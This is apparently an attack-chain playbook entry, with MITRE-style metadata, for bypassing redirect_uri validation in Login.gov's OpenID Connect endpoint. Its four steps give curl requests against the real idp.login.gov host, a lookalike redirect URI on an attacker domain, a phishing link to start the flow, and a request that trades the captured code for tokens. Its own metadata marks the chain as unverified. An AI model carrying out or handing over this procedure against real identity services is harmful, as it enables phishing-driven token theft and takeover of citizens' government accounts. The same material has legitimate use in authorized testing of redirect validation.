

---
tags:
  - open-redirect
  - oauth
  - openid-connect
  - token-theft
  - account-takeover
  - validation-bypass
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Credential Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-OpenID-Connect-Endpoint-and-Validation]]'
  - '[[procedures/Craft-Malicious-Redirect-URI]]'
  - '[[procedures/Initiate-Authorization-Flow-with-Malicious-Redirect]]'
  - '[[procedures/Compromise-User-Token-on-Attacker-Site]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Application Access Token]]'
updated_at: '2025-12-14T17:29:19.969Z'
description: >-
  Multi-stage attack exploiting improper redirect_uri validation in Login.gov's
  OpenID Connect endpoint to steal authentication tokens and enable account
  takeover on integrated government services.
skill_level: intermediate
impact_level: high
id: 0bb2eade-d23d-48e4-9f4f-40fdf4277dba
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Credential Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Application Access Token]]'
---
# Login.gov Redirect URI Validation Bypass for Token Theft and Account Takeover

Multi-stage attack chain demonstrating exploitation of improper redirect_uri validation in Login.gov's /openid_connect/authorize endpoint, allowing attackers to redirect authenticated users to malicious sites and steal tokens for account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or [[Burp Suite]] for intercepting and modifying requests
- A domain under attacker control (e.g., example.com)

### Target Environment

- Web platform
- Login.gov OpenID Connect service
- Access to initiate authorization flows (e.g., via phishing or direct link)

### Initial Access Requirements

- No prior credentials needed; relies on tricking users into authenticating
- Network access to Login.gov endpoints
- User interaction for authentication

## Detailed Attack Procedures

### Step 1: Identify the Authorization Endpoint and Validation Mechanism
procedure: [[procedures/Identify-OpenID-Connect-Endpoint-and-Validation]]

**Objective**: Examine the OpenID Connect authorization endpoint to understand redirect_uri handling and identify the validation flaw.

**Instructions**: Use browser dev tools or [[commands/curl-inspect-endpoint]] to probe the /openid_connect/authorize endpoint. Send a test request with a benign redirect_uri and inspect responses or logs to note that validation checks for hostname prefixes (e.g., starts with 'agency.gov') rather than exact matches.

```bash
curl -X GET "https://idp.login.gov/oauth/authorize?client_id=CLIENT_ID&redirect_uri=https://agency.gov/callback&response_type=code&scope=openid" -v
```

**Expected Output**: HTTP response showing successful validation for legitimate URIs; analyze headers or errors to confirm prefix-based checking.

**Success Indicators**:
- Endpoint responds without 4xx errors on valid URIs
- Validation logic inferred from behavior (e.g., accepts agency.gov.example.com)

### Step 2: Craft Malicious Redirect URI
procedure: [[procedures/Craft-Malicious-Redirect-URI]]

**Objective**: Construct a redirect_uri that bypasses validation by using a subdomain prefix matching the legitimate domain.

**Instructions**: Register or use an attacker-controlled domain (e.g., example.com). Build the URI as https://agency.gov.example.com/malicious-callback. Test validation using [[commands/curl-test-redirect-uri]] to ensure it passes as if it were agency.gov.

```bash
curl -X GET "https://idp.login.gov/oauth/authorize?client_id=CLIENT_ID&redirect_uri=https://agency.gov.example.com/malicious&response_type=code&scope=openid" -v
```

**Expected Output**: No validation error; endpoint accepts the URI.

**Success Indicators**:
- Malicious URI passes validation
- No redirect or error blocking the flow

### Step 3: Initiate Authorization Flow with Malicious Redirect
procedure: [[procedures/Initiate-Authorization-Flow-with-Malicious-Redirect]]

**Objective**: Trick or redirect a user into starting the OpenID Connect flow with the malicious redirect_uri, leading to authentication and redirection to attacker site.

**Instructions**: Create a phishing link or embed in a malicious site that initiates the flow: https://idp.login.gov/oauth/authorize?client_id=CLIENT_ID&redirect_uri=https://agency.gov.example.com/malicious&response_type=code&scope=openid. Upon user login, the code/token redirects to the attacker's site.

Use [[commands/curl-simulate-flow]] to test without user interaction if possible, or use a browser.

```bash
curl -X GET "https://idp.login.gov/oauth/authorize?client_id=CLIENT_ID&redirect_uri=https://agency.gov.example.com/malicious&response_type=code&scope=openid" -v
```

**Expected Output**: User prompted for login; post-auth, redirect to malicious site with code in query params.

**Success Indicators**:
- User authenticates successfully
- Redirect occurs to attacker-controlled site

### Step 4: Compromise User Token on Attacker's Site
procedure: [[procedures/Compromise-User-Token-on-Attacker-Site]]

**Objective**: Capture the authorization code or token from the redirect and use it to hijack sessions on integrated services.

**Instructions**: On the attacker site (e.g., agency.gov.example.com/malicious), log the query parameters containing the code. Exchange the code for tokens using the client credentials if known, or directly use the token for API calls to agency sites. Implement a simple logger in JavaScript or server-side.

For testing, use [[commands/curl-exchange-code]] on the captured code.

```bash
curl -X POST "https://idp.login.gov/oauth/token" -d "grant_type=authorization_code&code=CAPTURED_CODE&redirect_uri=https://agency.gov.example.com/malicious&client_id=CLIENT_ID" -v
```

**Expected Output**: Access token received; use it to access protected resources.

**Success Indicators**:
- Token or code captured
- Successful API calls to integrated services leading to account takeover

## Attack Chain Summary

### Key Achievements

1. Bypassed redirect_uri validation using subdomain prefix trick
2. Redirected authenticated users to attacker site without further prompts
3. Stolen tokens enabled session compromise and account takeover on government agency sites

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Application Access Token]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Credential Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
